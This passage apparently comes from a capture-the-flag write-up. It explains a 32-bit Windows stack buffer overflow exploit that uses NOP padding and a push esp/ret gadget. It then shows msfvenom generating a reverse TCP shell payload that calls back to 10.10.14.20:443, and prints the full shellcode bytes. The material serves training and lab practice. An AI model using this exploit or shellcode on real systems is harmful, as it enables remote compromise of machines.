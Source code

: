 ```

```

Very simply, it opens a connect to the target on port 8888, it sends a buffer, and it’s done.

The buffer is made up of 1052 bytes of no-op (nop, padding), then the address of a `push esp, ret` gadget, some nops, the payload, and then some more filler.

Without looking at the binary, this suggests that the stack before and after user input is read looks like this:

![image-20200719164839522](https://0xdfimages.gitlab.io/img/image-20200719164839522.png)

Now when the function returns, it will go to to the gadget, which will push `$esp` to the stack (which will now be at the top of the nops before the payload), and then return, moving the instruction pointer, `$eip`, to the nops followed by the payload.

#### Modify Payload

The payload in the script by default looks to be the output of `msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python`. Given the four-byte addresses and references to ESP and EIP (as opposed to RSP and RIP), this is a 32-bit program.

I’ll use `msfvenom` to generate my own payload that will return a stageless (can catch with `nc`) reverse tcp shell:

```

root@kali# msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1869 bytes
payload =  b""
payload += b"\xb8\x93\xe7\xa2\x0c\xd9\xe9\xd9\x74\x24\xf4\x5a"
payload += b"\x31\xc9\xb1\x52\x31\x42\x12\x03\x42\x12\x83\x51"
payload += b"\xe3\x40\xf9\xa9\x04\x06\x02\x51\xd5\x67\x8a\xb4"
payload += b"\xe4\xa7\xe8\xbd\x57\x18\x7a\x93\x5b\xd3\x2e\x07"
payload += b"\xef\x91\xe6\x28\x58\x1f\xd1\x07\x59\x0c\x21\x06"
payload += b"\xd9\x4f\x76\xe8\xe0\x9f\x8b\xe9\x25\xfd\x66\xbb"
payload += b"\xfe\x89\xd5\x2b\x8a\xc4\xe5\xc0\xc0\xc9\x6d\x35"
payload += b"\x90\xe8\x5c\xe8\xaa\xb2\x7e\x0b\x7e\xcf\x36\x13"
payload += b"\x63\xea\x81\xa8\x57\x80\x13\x78\xa6\x69\xbf\x45"
payload += b"\x06\x98\xc1\x82\xa1\x43\xb4\xfa\xd1\xfe\xcf\x39"
payload += b"\xab\x24\x45\xd9\x0b\xae\xfd\x05\xad\x63\x9b\xce"
payload += b"\xa1\xc8\xef\x88\xa5\xcf\x3c\xa3\xd2\x44\xc3\x63"
payload += b"\x53\x1e\xe0\xa7\x3f\xc4\x89\xfe\xe5\xab\xb6\xe0"
payload += b"\x45\x13\x13\x6b\x6b\x40\x2e\x36\xe4\xa5\x03\xc8"
payload += b"\xf4\xa1\x14\xbb\xc6\x6e\x8f\x53\x6b\xe6\x09\xa4"
payload += b"\x8c\xdd\xee\x3a\x73\xde\x0e\x13\xb0\x8a\x5e\x0b"
payload += b"\x11\xb3\x34\xcb\x9e\x66\x9a\x9b\x30\xd9\x5b\x4b"
payload += b"\xf1\x89\x33\x81\xfe\xf6\x24\xaa\xd4\x9e\xcf\x51"
payload += b"\xbf\xaa\x05\x57\x2b\xc3\x1b\x67\x52\xa8\x95\x81"
payload += b"\x3e\xde\xf3\x1a\xd7\x47\x5e\xd0\x46\x87\x74\x9d"
payload += b"\x49\x03\x7b\x62\x07\xe4\xf6\x70\xf0\x04\x4d\x2a"
payload += b"\x57\x1a\x7b\x42\x3b\x89\xe0\x92\x32\xb2\xbe\xc5"
payload += b"\x13\x04\xb7\x83\x89\x3f\x61\xb1\x53\xd9\x4a\x71"
payload += b"\x88\x1a\x54\x78\x5d\x26\x72\x6a\x9b\xa7\x3e\xde"
payload += b"\x73\xfe\xe8\x88\x35\xa8\x5a\x62\xec\x07\x35\xe2"
payload += b"\x69\x64\x86\x74\x76\xa1\x70\x98\xc7\x1c\xc5\xa7"
payload += b"\xe8\xc8\xc1\xd0\x14\x69\x2d\x0b\x9d\x99\x64\x11"
payload += b"\xb4\x31\x21\xc0\x84\x5f\xd2\x3f\xca\x59\x51\xb5"
```